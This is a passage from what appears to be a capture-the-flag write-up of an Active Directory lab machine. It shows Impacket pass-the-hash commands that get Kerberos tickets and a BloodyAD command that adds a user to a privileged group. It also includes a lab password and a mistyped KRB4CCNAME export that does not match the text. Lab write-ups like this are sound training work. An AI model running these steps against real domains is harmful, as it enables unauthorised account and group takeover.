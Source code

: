 Gathering a `TGT` using the hashes:
```console
# getTGT.py -dc-ip "dc01.vintage.htb" "vintage.htb"/"GMSA01$" -hashes aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in GMSA01.ccache
```
ensuring that each `ccache` file we gather is the new `KRB5CCNAME`:
```console
# export KRB4CCNAME='GMSA01$.ccache'
```
Next we can see that `GMSA01` can write to `ServiceManagers`:
![Bloodhound Data - GMSA01 can write to Service Managers](/assets/img/img_vintage/Pasted%20image%2020250130161101.png)
Using this, we can add our user `P.Rosa` to `ServiceManagers`: via `BloodyAD`:
```console title:AddMember
 # bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
```
Generating a certificate for `P.Rosa` to make it easier to authenticate:
```console
# getTGT.py -dc-ip "dc01.vintage.htb" "vintage.htb"/"P.Rosa":"Rosaisbest123"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in P.Rosa.ccache
```
ensuring that each `ccache` file we gather is the new `KRB5CCNAME`:
```console
# export KRB4CCNAME='P.Rosa.ccache'
```
`SERVICEMANAGERS` have `GenericAll` on `SVC` accounts:
